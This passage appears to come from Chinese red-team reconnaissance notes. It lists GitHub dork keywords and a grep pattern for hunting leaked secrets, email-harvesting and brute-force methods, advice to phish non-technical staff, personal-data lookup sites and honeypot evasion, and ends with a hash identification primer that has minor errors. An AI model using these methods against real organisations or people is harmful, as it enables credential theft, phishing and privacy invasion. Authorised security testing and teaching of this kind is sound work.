##### 图片反查

百度识图、googleimage、tineye等识图引擎


##### 从图片原图获取坐标

###### 在线查看器

改图宝
https://www.gaitubao.com/exif
图虫EXIF查看器
https://exif.tuchong.com/
我爱斗图
https://www.52doutu.cn/tools/exif
python-exifread 库
https://link.zhihu.com/?target\=https%3A//pypi.python.org/pypi/ExifRead

###### 经纬度转地址

GPS查询网址1
http://www.gpsspg.com/maps.htm
GPS查询网址2
http://www.gzhatu.com/dingwei.html
地球在线
https://www.earthol.com/
python-geopy库
https://www.osgeo.cn/geopy/

#### 04Github信息收集

自从学会使用github并在上面乱捣鼓找到一些站点账号或源码后，就此走上不归路，各种Github监控搞上，又发现一些阿里key，简直是宝了……

##### Github搜索语法

**高级搜索：**https://github.com/search/advanced

**Github高级搜索语法：https://docs.github.com/cn/search-github/getting-started-with-searching-on-github/understanding-the-search-syntax?spm=a2c6h.12873639.article-detail.6.55db74b8e8hJQq**

Github有着自己的搜索语法，善用搜索语法能发现更多的有用信息。一般来说，Github搜索都是以域名、备案、js路径、网站技术支持等关键内容为主。

搜索包含"`AccessKey ID`"和`password`内容的代码。


一些工具中总结了一些常见的搜索语法：

https://github.com/obheda12/GitDorker/tree/master/Dorks


搜索常用语法，可以搜索到一些敏感的私钥，一些SSH登录私钥，mysql的数据库密码，API key等等

```bash
"token"  
"password"  
"secret"  
"passwd"  
"username"  
"key"  
"apidocs"  
"appspot"  
"auth"  
"aws\_access"  
"config"  
"credentials"  
"dbuser"  
"ftp"  
"login"  
"mailchimp"  
"mailgun"  
"mysql"  
"pass"  
"pem private"  
"prod"  
"pwd"  
"secure"  
"ssh"  
"staging"  
"stg"  
"stripe"  
"swagger"  
"testuser"  
"jdbc"  
extension:pem private  
extension:ppk private  
extension:sql mysql dump password  
extension:json api.forecast.io  
extension:json mongolab.com  
extension:yaml mongolab.com  
extension:ica \[WFClient\] Password\=  
extension:avastlic “support.avast.com”  
extension:js jsforce conn.login  
extension:json googleusercontent client\_secret  
“target.com” send\_keys  
“target.com” password  
“target.com” api\_key  
“target.com” apikey  
“target.com” jira\_password  
“target.com” root\_password  
“target.com” access\_token  
“target.com” config  
“target.com” client\_secret  
“target.com” user auth
```

##### 收集工具

###### GitDorker

> https://github.com/obheda12/GitDorker

GitDorker 是一款github自动信息收集工具，它利用 GitHub 搜索 API 和作者从各种来源编译的大量 GitHub dorks 列表，以提供给定搜索查询的 github 上存储的敏感信息的概述。

###### trufflehog

> https://github.com/trufflesecurity/trufflehog

Truffle Hog是一款采用Python开发的工具，它可以检索GitHub代码库的所有代码提交记录以及分支，并搜索出可以表示密钥(例如AWS密钥)的高熵字符串。一般用来探测泄漏密钥的工具，支持扫描的数据源包括git、github、gitlab、S3、文件系统、文件和标准输入。

###### 其他检索方法：

https://github.com/BishopFox/GitGot

https://github.com/UKHomeOffice/repo-security-scanner

https://github.com/gwen001/github-search

https://github.com/eth0izzle/shhgit

https://github.com/lightless233/geye

https://github.com/cve-search/git-vuln-finder

https://github.com/Securityautomation/DumpTheGit

https://github.com/4x99/code6

https://github.com/tillson/git-hound

##### 代码仓库在线搜索平台

###### pinatahub

> [https://pinatahub.incognita.tech](https://pinatahub.incognita.tech/)
>
> github敏感信息搜索引擎，有时候github搜索查看不方便，可以直接在这个网站搜索。


###### searchcode

> https://searchcode.com/
>
> SearchCode从Github、BitBucket、CodePlex、SourceForge、Fedora等代码仓库里筛选了近160亿行开源代码，你能够使用文件扩展、特定代码库名字、URL、正则表达式、特殊字符等过滤器对源代码进行过滤，以便搜到你想要的代码。


##### 其他仓库

GitLab: https://about.gitlab.com/

gitee: https://gitee.com/

csdn：https://gitcode.net/explore

#### 05邮箱信息搜集

有时候不仅是正面硬刚就可以的，还需要迂回战术配合出击，正如攻防中社工一样，总会有一些意想不到的成果。随着办公网络的发展，邮箱也成为了常用的办公方式之一。攻防也是从信息收集逐渐延伸到钓鱼上，只要钓鱼技术好，轻轻松松混入内部，而要想社工钓鱼玩得溜，邮件方面是一个重要的突破口。

> tips: 邮箱建议做筛选，把一些疑是网络管理员、运维人员、安全部门的人员提取出来，单独发送或者不发，由于这部分人员安全意识偏高，容易打草惊蛇，一般多针对非技术人员，容易下手。

##### 邮箱入口查找方法

> 邮件服务器主要从端口和title标识两个信息点去确认的。

邮件服务器常见端口：

- 25
- 109
- 110
- 143
- 465
- 995
- 993

邮件服务器常见title：

- 邮箱登录
- Coremail
- eYou邮件系统
- TurboMail
- Exchange
- ……

###### C段扫描寻找入口

- 获取到目标后，从目标mx记录域名找到他的真实ip，若是第三方邮件服务器，MX记录就没啥参考价值了。


- 对获取到的真实ip这个段进行C段扫描，有时候也可以进行B段扫描。然后通过端口、title去确定邮件服务器信息。C段扫描方法可以参考上文C段收集章节。

###### 通过子域名扫描寻找入口

主要通过一些子域名收集工具去确认，如：Subdomainbrute、ksubdomain、Oneforall、Sublist3r、TeeMO、LangSrcCurise、Layer挖掘机等。

###### 通过搜索引擎寻找入口

战场主力也还是Google hacking和网络空间搜索引擎

1. **Google Hacking**

```bash
site:target.com intitle:"Outlook Web App"  
site:target.com intitle:"mail"  
site:target.com intitle:"邮箱"
```


1. **网络空间搜索引擎**

- Shodan
- fofa
- zoomeye
- 0.zone

```
(group\==阿里&&title\==邮箱)
```


##### 邮箱收集方法

###### 搜索引擎

**Google Hacking**


> - 有时候github一些仓库代码中也会存在邮箱信息。
> - 一般都会有邮箱、手机号等官方联系方式信息。

**网络空间搜索引擎**

**0.zone邮箱收集**

```
email\_type\==邮箱&&(group\==阿里)
```


##### 在线收集平台

> ps: 基本都需要注册，注册获取的信息比游客多好多，有些还需要绑定手机号。

###### [Snov.io](https://app.snov.io/)

Snovio是一个集成了“LinkedIn、GitHub、Moz、StackOverflow、Indeed、Behance、Upwork、Google页面邮箱采集”+“邮箱验证”+“联系人管理”+“邮件发送”为一身的网站。在Snovio只要输入一个域名，就可以采集到该域名在以上平台中暴露的所有邮箱地址，还支持API批量读取。

强大的邮箱收集，可单个收集也可以批量收集，还支持api调用。


> - 免费版每月可以有100条收集数量，也就是50信用。
> - 该站点的Google插件更方便
>   - https://snov.io/knowledgebase/how-to-use-snovio-extension-for-chrome/

###### [hunter](https://hunter.io/)

Hunter可让您在几秒钟内找到专业的电子邮件地址，并与对您的业务重要的人建立联系。

> 打码信息需要注册绑定手机号后才能看到。


###### [phonebook](https://phonebook.cz/)

Phonebook例举所有的域名，邮件地址，或者是所予域名的url，支持*.gov.uk的通配符，有340亿条记录。可以批量下载想要的域名。


###### [intelx](https://intelx.io/)

intelx是一个搜索引擎和数据存档。通过电子邮件，域名，IP, CIDR，比特币地址等等查找数据泄露信息。随便搜一下好像搜索出了一个泄露的邮箱数据库：


###### [skymem](http://www.skymem.info/)

一款可查找公司和人员的电子邮件地址在线邮箱查找平台，数据量较少，准确度高，大批量的需要购买。


###### 爱企查、企查查等批量查询

如通过爱企查的爱番番寻宝客“获取更多的联系方式”


如使用八爪鱼采集器进行批量查询

https://www.bazhuayu.com/tutorial/qccqyemailcj

###### 邮箱泄露信息查询

- https://monitor.firefox.com/
- https://haveibeenpwned.com/
- https://ghostproject.fr/

###### 其他

- [https://app.apollo.io](https://app.apollo.io/)
- [https://contactout.com](https://contactout.com/)
- [https://www.datanyze.com](https://www.datanyze.com/)
- [https://www.email-format.com](https://www.email-format.com/)
- TG社工库、其他社工库

##### 工具收集

###### [theHarvester](https://github.com/laramies/theHarvester)

> theHarvester是Kali自带的一款社会工程学工具，默认集成了多个api，利用网络爬虫技术通过Google、Bing、PGP、LinkedIn、Baidu、Yandex、People123、Jigsaw、Shodan、PGP服务器等不同公开源整理收集，能够收集e-mail、用户名、主机名、子域名、雇员、开放端口和Banner等信息。

theHarvester 参数详解

```php
  -h, \--help            show this help message and exit    #显示帮助信息并退出  
  -d, \--domain          DOMAIN Company name or domain to search.    #要搜索的公司名称或域名  
  -l, \--limit           LIMIT Limit the number of search results, default\=500.  #采集特定数量的结果，不指定情况下，默认为500  
  -S, \--start           START Start with result number X, default\=0.    #从采集到的信息编号“X”处开始执行采集，默认从0开始  
  -g, \--google-dork     Use Google Dorks for Google search.     #使用google Dorks进行google搜索。 （一般情况下不用，你懂的）  
  -p, \--proxies         Use proxies for requests, enter proxies in proxies.yaml.    #对信息采集的请求使用代理  
  -s, \--shodan          Use Shodan to query discovered hosts.       #使用shodan查询发现的主机  
  --screenshot Take screenshots of resolved domains specify output directory:       #对解析域的页面进行截图，需指定截图文件存放目录  
        \--screenshot output\_directory      \# 截图保存目录  
  -v, \--virtual-host    Verify host name via DNS resolution and search for virtual hosts.       #通过DNS解析主机名并搜索虚拟主机  
  -e, \--dns-server DNS\_SERVER DNS server to use for lookup.     #指定DNS解析服务器  
  -t, \--dns-tld DNS\_TLD  Perform a DNS TLD expansion discovery, default False.      #执行DNS TLD扩展发现，默认为False状态  
  -r, \--take-over       Check for takeovers.    #检查接管  
  -n, \--dns-lookup      Enable DNS server lookup, default False.       \# 启用DNS服务器查找，默认为False状态                                                                                                       
  -c, \--dns-brute       Perform a DNS brute force on the domain.       \# 进行DNS域解析暴力破解                                                                                                           
  -f, \--filename        Save the results to an HTML and/or XML file.    #指定输出文件名，格式支持HTML和XML                                                                                                         
  -b SOURCE, \--source SOURCE                                                                                                                                                     
                        baidu, bing, bingapi, bufferoverun, certspotter, crtsh, dnsdumpster, duckduckgo, exalead, github-code, google, hackertarget, hunter, intelx,             
                        linkedin, linkedin\_links, netcraft, otx, pentesttools, projectdiscovery, qwant, rapiddns, securityTrails, spyse, sublist3r, threatcrowd, threatminer,    
                        trello, twitter, urlscan, virustotal, yahoo     #指定采集信息的源  
```

**常用参数**

-d：指定搜索的域名或网址
-b：指定采集信息的源（如baidu，biying，google）
-l：指定采集信息的返回数量，默认500
-f：输出文件名并保存采集结果，可以保存为HTML或XML格式；如果不指定，采集信息仅作屏幕显示


> api key没有配置的时候，结果较少。

##### 验证邮箱

收集到邮箱后，就要对其进行存活性验证，避免出现被弃用、不可用的邮箱。

###### 在线平台

- [Email地址检查、检测Email地址真实性、检测电子邮件地址真实性--查错网](http://tool.chacuo.net/mailverify)
- [Verify Email Address Online - Free Email Verifier - Free Email Address Verification](https://verify-email.org/)
- [免费在线批量验证邮箱有效性 - EmailCamel.com](http://www.emailcamel.com/)
- [Email Verifier - Verify Email Address For Free With Our Verifier Tool](https://www.verifyemailaddress.org/)
- [snov.io 电子邮箱验证](https://app.snov.io/verify/individual-emails)


###### 工具

**verifyemail**

> https://github.com/Tzeross/verifyemail
>
> Python在线验证邮箱真实性，支持批量验证，支持全部域名邮箱，支持全部域名邮箱，支持全部域名邮箱，支持全部域名邮箱

##### 邮箱爆破

> 弱口令爆破方式只适用于目标企业自己的邮件服务器如owa等，对第三方邮箱不优先考虑

###### 常用字典组合

> 员工名称拼音/首字母
>
> 员工名称拼音/首字母+日期
>
> 公司简称+年份
>
> 员工名称+公司名
>
> passwd+日期
>
> P@sswd!+日期

###### **爆破字典**

https://github.com/rootphantomer/Blasting_dictionary

https://github.com/TheKingOfDuck/fuzzDicts

###### 工具

爆破邮箱大概分为两种情况

- 网页邮箱爆破
  - burpsuite等
- STMP协议等邮箱端口爆破
  - medusa、hydra、SNETCracker、[GoMapEnum](https://github.com/nodauf/GoMapEnum)、APT34组织 owa爆破工具等（多数工具kali都自带）

> 邮箱相关端口：
>
> SMTP默认端口：25
>
> POP3默认端口：110
>
> IMAP默认端口：143

##### 临时邮箱

```bash
#所谓的十分钟邮箱类  
http://www.yopmail.com/zh/  
https://10minutemail.com/  
https://10minutemail.net/  
https://www.guerrillamail.com/zh/inbox  
http://www.fakemailgenerator.com/  
https://temp-mail.org/en/  
https://www.guerrillamail.com/  
http://tool.chacuo.net/mailsend  
https://maildrop.cc/  
http://tool.chacuo.net/mailanonymous  
https://tempmail.altmails.com/  
https://www.snapmail.cc/  
https://www.linshi-email.com/
```

##### 匿名邮箱

- [ProtonMail](https://mail.protonmail.com/inbox)
- [Get secure, reliable email hosting – FastMail](https://www.fastmail.com/)
- [xyfir/ptorx](https://github.com/xyfir/ptorx)
- [Tutanota](https://tutanota.com/)

#### 06 网盘信息收集

一些安全意识薄弱的人员对于上传到网盘上的资源未作加密限制或者密码泄露，然后又被一些云盘爬虫给收集到，最终导致信息泄露。通过一些网盘引擎可以获取到其中的泄露信息。

##### 在线平台

https://lzpan.com/
凌风云：https://www.lingfengyun.com/
蓝菊花：http://www.lanjuhua.com/
大力盘：https://www.dalipan.com/
猪猪盘：http://www.zhuzhupan.com/
PanSou：http://www.pansou.com/
盘飞飞：https://panfeifei.com/

由于网盘搜索工具的时效性，可以通过搜索引擎去获取一些。


###### 搜索关键词

关键词一般以单位名称、别称、产品业务等


##### 爬虫

- [百度网盘爬虫脚本搜索](https://github.com/search?q=百度网盘爬虫)
- [网盘搜索工具](https://www.yzzpan.com/#sharefile=trOPDGQC_54416)


- 网盘有时候会存在一些简历信息泄露，如手机号、邮箱、部门等。

## 0x06 其他信息

### 01APP

通过获取App配置、数据包，去获取url、api、osskey、js等敏感信息。

#### App查找入口

##### 搜索引擎

- Google Hacking
- 网络空间搜索引擎

##### 在线聚合平台

- [小蓝本](https://www.xiaolanben.com/pc)
- [七麦](https://www.qimai.cn/)
- [AppStore](https://www.apple.com/app-store)
- [点点](https://www.diandian.com/)
- [豌豆荚](https://www.wandoujia.com/)
- [天眼查](https://www.tianyancha.com/)/[爱企查](https://aiqicha.baidu.com/)等
- App应用商城

#### App敏感信息收集

> ps：App关联打算另写一篇。

##### 手工收集

一般是通过抓包收集接口数据或者逆向获取配置数据。

- 抓包可能会需要进行证书绕过、绕过抓包限制等。
  - 常用的软件简记
    - [Fastboot & ADB](https://developer.android.google.cn/studio/releases/platform-tools?hl=zh_cn)
    - [HttpCanary](https://pan.baidu.com/s/1-4YrEuNYAS_g7o34NO26xg?pwd=p7o3)
    - [Packet Capture](https://play.google.com/store/apps/details?id=app.greyshirts.sslcapture)
    - [Wicap](https://nalankang.lanzoui.com/b00usn8te)
    - [Fildder](https://www.telerik.com/fiddler)+[Burpsuite](https://portswigger.net/burp)
    - [Mitmproxy](https://mitmproxy.org/)
    - [Charles](https://www.charlesproxy.com/)
    - [Frida](https://github.com/frida/frida)
    - SSL相关：[JustTrustMe++](https://github.com/JunGe-Y/JustTrustMePP)/[TrustMeAlready](https://github.com/ViRb3/TrustMeAlready)/[SSLUnpinning](https://github.com/ac-pm/SSLUnpinning_Xposed)/[Inspeckage](https://github.com/ac-pm/Inspeckage)
    - 强制走代理：[ProxyDroid](https://play.google.com/store/apps/details?id=org.proxydroid&hl=en_SG&gl=US)/[Droni](https://play.google.com/store/apps/details?id=org.sandrob.drony)+[Burpsuite](https://portswigger.net/burp)
    - 综合性安卓抓包/逆向/HOOK自动化脚本工具：[lamda](https://github.com/rev1si0n/lamda)/[r0capture](https://github.com/r0ysue/r0capture)/[fridaUiTools](https://github.com/dqzg12300/fridaUiTools)/[frida_hook_libart](https://github.com/lasting-yang/frida_hook_libart)
- 逆向可能会需要进行脱壳/解码等。
  - 常用软件简记
    - [幸运破解器](https://pan.quark.cn/s/e597d624dd23#/list/share/c978afeb1cdc48ed9e51745006cfea6e-Lucky Patcher)
    - [核心破解](https://github.com/Xposed-Modules-Repo/com.coderstory.toolkit)
    - [BlackDex](https://github.com/CodingGay/BlackDex)
    - [fdex2](https://github.com/CodingGay/BlackDex)
    - [FART](https://github.com/hanbinglengyue/FART)
    - [Android Killer](https://github.com/liaojack8/AndroidKiller)
    - [午夜神大佬应用集](https://www.yuque.com/docs/share/c0691a64-3b55-4ae3-ab20-90e1daff12cd)


- grep筛选

  ```php
  grep \-EHirn "accesskey|admin|aes|api\_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into|setJavaScriptEnabled|root|JavascriptInterface|MODE\_WORLD\_READABLE|MODE\_WORLD\_WRITEABLE|Pinner|checkServerTrusted|api\_secret|api/v1|api/v2" \--color APKfolder/  
  \# https://twitter.com/AmitMDubey/status/1272982285277491200
  ```

##### **工具推荐：**

**AppInfoScanner**

> https://github.com/kelvinBen/AppInfoScanner
>
> 一款适用于以HW行动/红队/渗透测试团队为场景的移动端(Android、iOS、WEB、H5、静态网站)信息收集扫描工具，可以帮助渗透测试工程师、攻击队成员、红队成员快速收集到移动端或者静态WEB站点中关键的资产信息并提供基本的信息输出,如：Title、Domain、CDN、指纹信息、状态信息等。

**ApkAnalyser**

> https://github.com/TheKingOfDuck/ApkAnalyser
>
> 一键提取安卓应用中可能存在的敏感信息。
>
> 目前可提取APK内：
>
> - 所有字符串
> - 所有URLs
> - 所有ip
> - 可能是hash值的字符串
> - 存在的敏感词（如oss.aliyun）
> - 可能是accessKey的值

### 02OSINT

> OSINT(Open-source intelligence) 指开源情报,一项从媒体、网络、博客、视频，等公开来源中进行信息收集、提取的技术。

#### 情报相关资源

- [OSINT-CN](https://start.me/p/GE7JQb/osint) 一款在线分享国内外OSINT资源和工具的网站
- [Digital-Privacy](https://github.com/ffffffff0x/Digital-Privacy) Information Protection & OSINT resources | 一个关于数字隐私搜集、保护、清理集一体的方案,外加开源信息收集(OSINT)对抗
- [丁爸网](http://dingba.top/)
- 微信公众号 情报小蜜蜂 little_bee007
- [iYouPort OSINT专栏](https://www.iyouport.org/category/osint/)
- [sinwindie/OSINT](https://github.com/sinwindie/OSINT) - 各种平台的 OSINT "一张图" 系列
- [blaCCkHatHacEEkr/OSINT_TIPS](https://github.com/blaCCkHatHacEEkr/OSINT_TIPS) - OSINT 技巧合集
- [The Privacy, Security, & OSINT Show](https://inteltechniques.com/podcast.html) - 讲述、介绍各类 OSINT 技能的博客
- [OSINT Framework](https://osintframework.com/) - 非常著名的 OSINT 框架,有着非常丰富的 OSINT 资源

#### **OSINT 情报工具**

- https://intelx.io/tools - 在线使用的开源情报和取证工具清单
- [OSINT Recon Tool](https://recontool.org/#mindmap) - 在线的 osint 工具集合，加上思维脑图
- [woj-ciech/SocialPath](https://github.com/woj-ciech/SocialPath) - 跟踪社交媒体平台上的用户
- [Greenwolf/social_mapper](https://github.com/Greenwolf/social_mapper) - 通过面部识别跟踪不同社交平台目标的工具
- [bhavsec/reconspider](https://github.com/bhavsec/reconspider) - 可用于扫描IP地址，电子邮件，网站，组织的 OSINT 工具
- [SpiderFoot](https://www.spiderfoot.net/)

### 03个人隐私信息

#### **从邮箱查询**

- [你注册过哪些网站？一搜便知](https://www.reg007.com/)
- [Find email addresses in seconds • Hunter (Email Hunter)](https://hunter.io/) - email 信息查询工具

#### 从用户名查询

- [Instant Username Search](https://instantusername.com/#/) - 实时搜索100多个社交媒体网站的用户名。
- [CheckUsernames](https://checkusernames.com/) - 测某账号是否在全球500多个社交媒体中是否有注册。
- [WhatsMyName Web](https://whatsmyname.app/) - 搜索许多网站上存在的用户名。
- [NameCheckup](https://namecheckup.com/) - 查找可用的用户名
- [Namechk](https://namechk.com/)
- [KnowEm Username Search](https://knowem.com/)
- [sherlock-project/sherlock](https://github.com/sherlock-project/sherlock) - 在不同的社交网络上通过用户名搜寻账户

#### 从IP查询

- [Torrent downloads and distributions for IP](http://iknowwhatyoudownload.com/) - 查你这个IP下载过哪些磁力链接?

#### 混合查询

- [Username Search](https://usersearch.org/) - 找到用户名、电子邮件地址或电话号码背后的人。
- [n0tr00t/Sreg](https://github.com/n0tr00t/Sreg) - 使用者通过输入 email、phone、username 的返回用户注册的所有互联网信息.
- [Humanitarian Data Exchange](https://data.humdata.org/organization/facebook) - Facebook 的公开数据查询平台
- [银行卡号归属地查询](http://cha.yinhangkadata.com/)
- [友商发·票查询](http://fapiao.youshang.com/)
- TG库、四件套等。

#### 从注册信息查询

Sms
https://www.materialtools.com/
http://receivefreesms.com/
Email
https://10minutemail.net/
http://24mail.chacuo.net/
https://zh.mytrashmailer.com/
http://24mail.chacuo.net/enus
https://www.linshiyouxiang.net/
Fake id
https://www.fakenamegenerator.com/
http://www.haoweichi.com/
https://www.fakeaddressgenerator.com/

### 04历史漏洞

- wooyun 历史漏洞库：http://www.anquan.us/
- 漏洞银行：https://www.bugbank.cn/
- 360 补天：https://www.butian.net/
- 教育行业漏洞报告平台：https://src.edu-info.edu.cn/login/
- seebug：https://paper.seebug.org/
- CNVD：http://www.cnnvd.org.cn/
- Exploit Database: [https://www.exploit-db.com](https://www.exploit-db.com/)
- Vulners: [https://vulners.com](https://vulners.com/)
- zone-h：http://zone-h.org/archive?hz=1
- Sploitus: [https://sploitus.com](https://sploitus.com/)
- 历史界面：[wayback](https://archive.org/web/)
  - 工具：[**waybackurls**](https://github.com/tomnomnom/waybackurls)

### 05蜜罐识别

> 通常**将蜜罐(honeypot)定义为一种安全资源，它不需要提供实际的应用，蜜罐的存在价值就是诱导和记录攻击行为，从而了解攻击者的入侵方法和手段，并能够延缓其攻击进程**，进而根据捕获的攻击行为数据，分析攻击者使用的攻击方法和工具，从而让防御方针对性地增强系统的安全防护能力

**简单识别**

- [honeyscore shodan](https://honeyscore.shodan.io/)
  - 网络空间搜索引擎
- [Honeypot Hunter](https://send-safe-honeypot-hunter.apponic.com/)
  - Send-Safe Honeypot Hunter 是一种工具，用于检查所谓的“蜜罐”的 HTTPS 和 SOCKS 代理列表。“蜜罐”是由试图通过使用这些虚假代理记录流量，然后向其 ISP 发送投诉的人运行的虚假代理。
- [Chrome 蜜罐检测插件](https://github.com/iiiusky/AntiHoneypot-Chrome-simple)
  - 需要自己完善规则的Chrome 蜜罐检测插件
- [anti-honeypot](https://github.com/cnrstar/anti-honeypot)
  - 一款可以检测WEB蜜罐并阻断请求的Chrome插件
- [AntiHoneypot](https://github.com/Monyer/antiHoneypot)
  - 一个拦截XSSI & 识别Web蜜罐的Chrome扩展

## 工具向

> 持续更新……

- **水泽 信息收集自动化工具**

https://github.com/0x727/ShuiZe_0x727

> 作者：[Ske](https://github.com/SkewwG)
>
> 团队：[0x727](https://github.com/0x727)，未来一段时间将陆续开源工具，地址：https://github.com/0x727
>
> 定位：协助红队人员快速的信息收集，测绘目标资产，寻找薄弱点
>
> 语言：python3开发
>
> 功能：一条龙服务，只需要输入根域名即可全方位收集相关资产，并检测漏洞。也可以输入多个域名、C段IP等，具体案例见下文。
>
> 调用：脚本借用了ksubdomain爆破子域名和theHarvester收集邮箱，感谢ksubdomain和theHarvester作者

- **ARL资产侦察灯塔系统**

https://github.com/TophantTechnology/ARL

> 旨在快速侦察与目标关联的互联网资产，构建基础资产信息库。 协助甲方安全团队或者渗透测试人员有效侦察和检索资产，发现存在的薄弱点和攻击面。

- **ENScanGo**

https://github.com/wgpsec/ENScan_GO

> 由狼组安全团队的 Keac 师傅写的专门用来解决企业信息收集难的问题的工具，可以一键收集目标及其控股公司的 ICP 备案、APP、小程序、微信公众号等信息然后聚合导出。

- [**gobuster**](https://github.com/OJ/gobuster)

> 一个用于暴力破解的工具：
>
> - 网站中的 URI（目录和文件）。
> - DNS 子域（支持通配符）。
> - 目标 Web 服务器上的虚拟主机名。
> - 打开 Amazon S3 存储桶

- [**SecLists**](https://github.com/danielmiessler/SecLists)

> SecLists是安全测试人员的伴侣。它是安全评估期间使用的多种类型列表的集合，收集在一个地方。列表类型包括用户名、密码、URL、敏感数据模式、模糊测试负载、Web Shell 等等。目标是使安全测试人员能够将此存储库拉到一个新的测试框上，并可以访问可能需要的每种类型的列表。

- OSINT开源情报与侦察工具

https://www.osint-labs.org/tools/

- 本机ip地址查询

https://ip.skk.moe/

- 空间搜索引擎
  - FOFA [https://fofa.info](https://fofa.info/)
  - Quake https://quake.360.cn/quake/#/index
  - Hunter [https://hunter.qianxin.com](https://hunter.qianxin.com/)
  - Censys https://search.censys.io/
  - Shadon [https://www.shodan.io](https://www.shodan.io/)
  - ZoomEye [https://www.zoomeye.org](https://www.zoomeye.org/)
  - Sumap https://sumap.dbappsecurity.com.cn/
  - Soall https://soall.org/login
  - 0.zone https://0.zone/

# 各种加密编码类型的密文特征

学习文章：

```
https://cloud.tencent.com/developer/article/1748394
```

### rsa

简介
RSA 是目前最有影响力的公钥加密算法，该算法基于一个十分简单的数论事实：将两个大素数相乘十分容易，但想要对其乘积进行因式分解却极其困难，因此可以将乘积公开作为加密密钥，即公钥，而两个大素数组合成私钥。公钥是可发布的供任何人使用，私钥则为自己所有，供解密之用。

工作流程
A 要把信息发给 B 为例，确定角色：A 为加密者，B 为解密者。首先由 B 随机确定一个 KEY，称之为私钥，将这个 KEY 始终保存在机器 B 中而不发出来；然后，由这个 KEY 计算出另一个 KEY，称之为公钥。这个公钥的特性是几乎不可能通过它自身计算出生成它的私钥。接下来通过网络把这个公钥传给 A，A 收到公钥后，利用公钥对信息加密，并把密文通过网络发送到 B，最后 B 利用已知的私钥，就能对密文进行解码了。以上就是 RSA 算法的工作流程。

## 0x01：MD5、sha1、HMAC算法、NTLM等相似加密类型

### 01md5

```
21232F297A57A5A743894A0E4A801FC3
```

**一般MD5值是32位由数字“0-9”和字母“a-f”所组成的字符串**，如图。如果出现这个范围以外的字符说明这可能是个错误的md5值，就没必要再拿去解密了。16位值是取的是8~24位。


**md5的三个特征：**

1. **确定性**：一个原始数据的MD5值是唯一的，同一个原始数据不可能会计算出多个不同的MD5值。
2. **碰撞性**：原始数据与其MD5值并不是一一对应的，有可能多个原始数据计算出来的MD5值是一样的，这就是碰撞。
3. **不可逆**：也就是说如果告诉你一个MD5值，你是无法通过它还原出它的原始数据的，这不是你的技术不够牛，这是由它的算法所决定的。因为根据第4点，一个给定的MD5值是可能对应多个原始数据的，并且理论上讲是可以对应无限多个原始数据，所有无法确定到底是由哪个原始数据产生的。

### 02sha1

```
d033e22ae348aeb5660fc2140aec35850c4da997
```

这种加密的密文特征跟MD5差不多，只不过位数是40


### 03HMAC

HMAC (Hash-based Message Authentication Code) 常用于接口签名验证，这种算法就是在前两种加密的基础上引入了秘钥，而秘钥又只有传输双方才知道，所以基本上是破解不了的


这一串属于md5

### 04NTLM

```
209c6174da490caeb422f3fa5a7ae634
```

这种加密是Windows的哈希密码，是 Windows NT 早期版本的标准安全协议。与它相同的还有Domain Cached Credentials（域哈希）。


### 相似加密类型

| #    | 算法                      | 长度                                             |
| :--- | :------------------------ | :----------------------------------------------- |
| 1    | md5                       | 32/16                                            |
| 2    | sha1                      | 40                                               |
| 3    | sha256                    | 64                                               |
| 4    | sha512                    | 128                                              |
| 5    | adler32                   | 8                                                |
| 6    | crc32                     | 8                                                |
| 7    | crc32b                    | 8                                                |
| 8    | fnv132                    | 8                                                |
| 9    | fnv164                    | 16                                               |
| 10   | fnv1a32                   | 8                                                |
| 11   | fnv1a64                   | 16                                               |
| 12   | gost                      | 64                                               |
| 13   | gost-crypto               | 64                                               |
| 14   | haval128,3                | 32                                               |
| 15   | haval128,4                | 32                                               |
| 16   | haval128,5                | 32                                               |
| 17   | haval160,3                | 40                                               |
| 18   | haval160,4                | 40                                               |
| 19   | haval160,5                | 40                                               |
| 20   | haval192,3                | 48                                               |
| 21   | haval192,4                | 48                                               |
| 22   | haval192,5                | 48                                               |
| 23   | haval224,3                | 56                                               |
| 24   | haval224,4                | 56                                               |
| 25   | haval224,5                | 56                                               |
| 26   | haval256,3                | 64                                               |
| 27   | haval256,4                | 64                                               |
| 28   | haval256,5                | 64                                               |
| 29   | joaat                     | 8                                                |
| 30   | md2                       | 32                                               |
| 31   | md4                       | 32                                               |
| 32   | ripemd128                 | 32                                               |
| 33   | ripemd160                 | 40                                               |
| 34   | ripemd256                 | 64                                               |
| 35   | ripemd320                 | 80                                               |
| 36   | sha224                    | 56                                               |
| 37   | sha3-224                  | 56                                               |
| 38   | sha3-256                  | 64                                               |
| 39   | sha3-384                  | 96                                               |
| 40   | sha3-512                  | 128                                              |
| 41   | sha384                    | 96                                               |
| 42   | sha512/224                | 56                                               |
| 43   | sha512/256                | 64                                               |
| 44   | snefru                    | 64                                               |
| 45   | snefru256                 | 64                                               |
| 46   | tiger128,3                | 32                                               |
| 47   | tiger128,4                | 32                                               |
| 48   | tiger160,3                | 40                                               |
| 49   | tiger160,4                | 40                                               |
| 50   | tiger192,3                | 48                                               |
| 51   | tiger192,4                | 48                                               |
| 52   | whirlpool                 | 128                                              |
| 53   | mysql                     | 老MYSQL数据库用的，16位，且第1位和第7位必须为0-8 |
| 54   | mysql5                    | 40                                               |
| 55   | NTLM                      | 32                                               |
| 56   | Domain Cached Credentials | 32                                               |

### **常用解密网站：**

- [www.cmd5.com](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.cmd5.com%2F&source=article&objectId=1748394)（带批量解密工具）
- [www.somd5.com](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fwww.somd5.com%2F&source=article&objectId=1748394)
- [cmd5.la](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fcmd5.la%2Fuser%2Findex.php&source=article&objectId=1748394)
- [pmd5.com](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fpmd5.com%2F&source=article&objectId=1748394)
- [www.ttmd5.com](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fwww.ttmd5.com%2F&source=article&objectId=1748394)（带批量解密工具）

## 0x02：Base64、Base58、Base32、Base16、Base85、Base100等相似加密类型

**一般情况下密文尾部都会有两个等号，明文很少的时候则没有**

Base64编码要求把3个8位字节（3*8=24）转化为4个6位的字节（4*6=24），之后在6位的前面补两个0，形成8位一个字节的形式。 如果剩下的字符不足3个字节，则用0填充，输出字符使用‘=’，因此编码后输出的文本末尾可能会出现1或2个‘=’，如图。


为了保证所输出的编码位可读字符，Base64制定了一个编码表，以便进行统一转换。编码表的大小为2^6=64，这也是Base64名称的由来。

**Base64编码表**

